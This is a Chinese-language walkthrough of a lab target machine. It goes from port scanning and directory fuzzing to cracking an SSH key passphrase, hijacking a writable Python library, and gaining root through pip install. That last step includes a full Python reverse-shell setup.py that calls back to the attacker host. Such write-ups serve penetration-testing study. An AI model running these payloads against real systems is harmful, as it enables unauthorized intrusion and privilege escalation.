 0X00 环境<br />**攻击机：**192.168.1.3<br />**靶机：**192.168.1.9


# 0X01 信息收集
使用[NMAP](https://www.yuque.com/xmtxsec/network_security/xm1y1f)进行端口扫描
```
nmap -sV -A 192.168.1.9 -p-
```
![image.png](../../_img\06-靶场实践/1671518059251-6c8f02a8-909e-4f85-a285-2c1fff22583c.png)
可以看到目标机只开放了两个端口。

查看一下80端口的Web页面发现是一张图片，看来一下源码也没有什么内容
![image.png](../../_img\06-靶场实践/1671518232574-cc71a869-cb69-4e5d-a992-8f55d030529e.png)
![image.png](../../_img\06-靶场实践/1671518370587-f7314e03-30e2-4897-aab8-3944afebebd7.png)

扫描以下网站目录结构
![image.png](../../_img\06-靶场实践/1671518775561-8d582d08-9593-4a96-a2fd-77f42763c393.png)

查看上面扫描出来的robots.txt文件
![image.png](../../_img\06-靶场实践/1671518832349-e73f50cd-dc87-43b6-b545-16fc36b7f4d7.png)
访问/~myfiles
![image.png](../../_img\06-靶场实践/1671518861928-b930a432-6cde-46ca-9ae3-f73afb50d38e.png)
![image.png](../../_img\06-靶场实践/1671518879607-d6caa165-edfe-4c20-b987-7484dc0128e9.png)

依照`/~myfiles`这个格式尝试使用[Wfuzz](https://www.yuque.com/xmtxsec/network_security/fx9xgg)进行模糊扫描<br />推荐字典：[https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)
```
 wfuzz -w /usr/share/SecLists/Discovery/Web-Content/burp-parameter-names.txt -c -u 'http://192.168.1.9/~FUZZ' --hc 404
```
![image.png](../../_img\06-靶场实践/1671520752200-5f13f2cb-a931-4770-a572-30b6235b615a.png)

在浏览器访问 [http://192.168.1.9/~secret/](http://192.168.1.9//~secret/)
![image.png](../../_img\06-靶场实践/1671520944830-4b8f7253-a801-4673-8ebe-c00f302c28b8.png)
通过这段信息我们可以知道需要找到藏在某个地方的ssh私钥文件，icex64可能是用户名。而且创建secret这个目录的原因就是为了分享他的私钥文件，但是我们并没有看到私钥文件，可以猜测私钥文件可能是在secret目录的下一级。

使用[FFUF](https://www.yuque.com/xmtxsec/network_security/phdd91qqlyq3bvb0)继续模糊测试
```
ffuf -u 'http://192.168.1.9/~secret/.FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -e .txt,.pub,.html,.bak -mc 200

-u    指定扫描路径
-w    指定字典
-e    指定要筛选的后缀
-mc   指定要筛选的状态码
```
![image.png](../../_img\06-靶场实践/1671522778959-429a32be-7a8d-4d8b-ae19-1c0778620e9a.png)

访问mysecret.txt，得到一串密文
![image.png](../../_img\06-靶场实践/1671522918001-8f52728b-d054-4ec3-b9c6-bbecc431e908.png)

经过多次尝试后发现使用base58解码成功
![image.png](../../_img\06-靶场实践/1671523035280-bdebc1b8-f823-4c0f-874f-f81ebb1b7fda.png)

将得到的私钥保存到ssh.txt中，并使用john生成密码本
```
/usr/share/john/ssh2john.py ssh.txt > passwd 
```
![image.png](../../_img\06-靶场实践/1671523414108-eeb7d625-d3ed-47d2-bfc1-b3ead4936fe0.png)

使用john爆破，得到密码`P@55w0rd!`
```
john --wordlist=/usr/share/wordlists/fasttrack.txt passwd
```
![image.png](../../_img\06-靶场实践/1671523500727-813ff8cd-ef2c-45b1-b321-8a4eff016166.png)

# 0X02 漏洞利用 
用上面收集到的账号`icex64`和密码`P@55w0rd!`连接SSH
```
ssh icex64@192.168.1.9 -i
```
![image.png](../../_img\06-靶场实践/1671524519880-84c9274f-930d-49ef-a672-982406ef85a5.png)

成功登陆，查看user.txt文件
![image.png](../../_img\06-靶场实践/1671524698410-ca7af7ce-5680-4429-813c-b377907236c1.png)


# 0X03 横向移动
查看当前用户拥有的权限
```
sudo -l
```
![image.png](../../_img\06-靶场实践/1671524820737-50515b42-f98a-4aed-abe1-4d81572fe60e.png)
 有一个arsene免密，还给出了一个python文件的路径。

查看一下这个python文件，发现调用了webbrowser
```
cat /home/arsene/heist.py
```
![image.png](../../_img\06-靶场实践/1671524948401-d01e907b-2d68-4749-87ab-30dc5c9628d1.png)

查找一下webbrowser
```
find /usr -name *webbrowser*
```
![image.png](../../_img\06-靶场实践/1671525279423-0adccfb1-1e0a-4bd3-b761-a0eb560afeb4.png)

查看该文件的权限
```
ls -l /usr/lib/python3.9/webbrowser.py
```
![image.png](../../_img\06-靶场实践/1671525387870-efc84161-596b-4f5e-8f43-3c39be8f7989.png)
具有root权限且当前用户具有编写权限

因为当前用户对webbrowser.py具有编写权限，因此在该文件中写入shell
```
os.system("/bin/bash")
```
![image.png](../../_img\06-靶场实践/1671525889919-b6c607f6-2895-4308-8602-3aa0a440427a.png)

用 arsene 调用 /home/arsene/heist.py，获取arsene权限
```
sudo -u arsene python3.9 /home/arsene/heist.py
```
![image.png](../../_img\06-靶场实践/1671525928826-4b6d259b-57d3-4bba-be52-5f29408db50b.png)

查看 arsene 用户拥有的权限
```
sudo -l
```
![image.png](../../_img\06-靶场实践/1671526003023-46c175a0-d542-43f9-bd1b-f3d9f9b70062.png)
pip命令不需要root密码即可执行


# 0X04 利用pip提权

## 方法一
```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```
同等于
```
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > setup.py
sudo pip install .
```
成功得到toot权限
![image.png](../../_img\06-靶场实践/1671526741086-9aaea337-94ed-4cd0-b0b4-08dc5f42aa1c.png)


## 方法二
本地启动监听
```
nc -tvlp 9999
```
![image.png](../../_img\06-靶场实践/1671528059147-bd1b5298-2c1f-4a87-8bdc-001b1c067020.png)

编写提权脚本setup.py
```
from setuptools import setup   #加入

def con():
	import socket, time,pty, os
	host='192.168.1.3'
	port=9999
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.settimeout(10)
	s.connect((host,port))
	os.dup2(s.fileno(),0)
	os.dup2(s.fileno(),1)
	os.dup2(s.fileno(),2)
	os.putenv("HISTFILE",'/dev/null')
	pty.spawn("/bin/bash")
	s.close()
con()

setup(name="hahahaha", version="1.0")  #加入
```

将setup.py上传到目标机
```
python2 -m SimpleHTTPServer 7777
```
![image.png](../../_img\06-靶场实践/1671527940830-2bf27237-80e6-425d-a5d4-09be4c800719.png)
```
wget http://192.168.1.3:7777/setup.py
```
![image.png](../../_img\06-靶场实践/1671527984893-2b03e4bc-e466-4ba5-a062-18d5ea57d325.png)

在靶机上执行
```
sudo /usr/bin/pip install . --upgrade --force-reinstall
```

成功反弹shell
![image.png](../../_img\06-靶场实践/1671527667637-dd81ec67-7d15-4b1c-a803-e4b17e793b80.png)


来到root目录下成功得到flag
![image.png](../../_img\06-靶场实践/1671526919472-128e9f27-ccf6-431c-9a3c-a917c8dd1738.png)
